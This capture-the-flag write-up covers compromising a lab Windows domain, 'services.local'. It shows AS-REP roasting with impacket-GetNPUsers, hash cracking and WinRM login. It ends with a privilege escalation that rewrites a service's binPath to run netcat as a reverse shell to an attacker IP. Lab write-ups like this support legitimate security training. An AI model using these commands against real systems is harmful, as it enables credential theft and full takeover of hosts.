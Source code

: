 Started with a nmap scan
```
53 DNS
80 IIS 10 httpd
135 RPC
139 ssn
445 microsoft-ds
3269 ?
3389 ms-wbt-server
```
So running some enumeration on the smb and we have no shares we can access as guest or anonymous so now we go to the website and not much going on with the site so I start building a list of user names and at the bottom of the webpage there is a `j.doe@services.local` so this might be the naming schema so I make a list of usernames just like this and turns out the email might belong to the sales person so now we need to validate it using kerburte and we have some valid usernames now
```
W.Masters
J.Doe
J.LaRusso
J.Rock
```
Now we can run `impacket-GetNPUsers` and we can get some hashes we can crack
`impacket-GetNPUsers -dc-ip 10.10.141.252 -request 'services.local' -outputfile kerbroast.hash -usersfile usersnames -format hashcat` 
And we got a hash for the user `J.Rock` and it cracked and we got a login now we can use `J.Rock:Servi............` and we can winrm into the host and we got the user flag now doing a `whoami /all` and we have access to the `Servers Operators` group and we can use this to get to SYSTEM admin so first we need to find a service we can exploit took me a couple tries to find one but I found we can use `cfn-hup` so we put a `nc.exe` file on the host and run this command first
`sc.exe config cfn-hup binPath=\"C:\Users\j.rock\Documents\nc.exe -e cmd.exe 10.13.8.255 1234"` and then we need to stop and then restart the service 
`sc.exe stop cfn-hup` and then `sc.exe start cfn-hup` and we get a call to are ncat as system admin 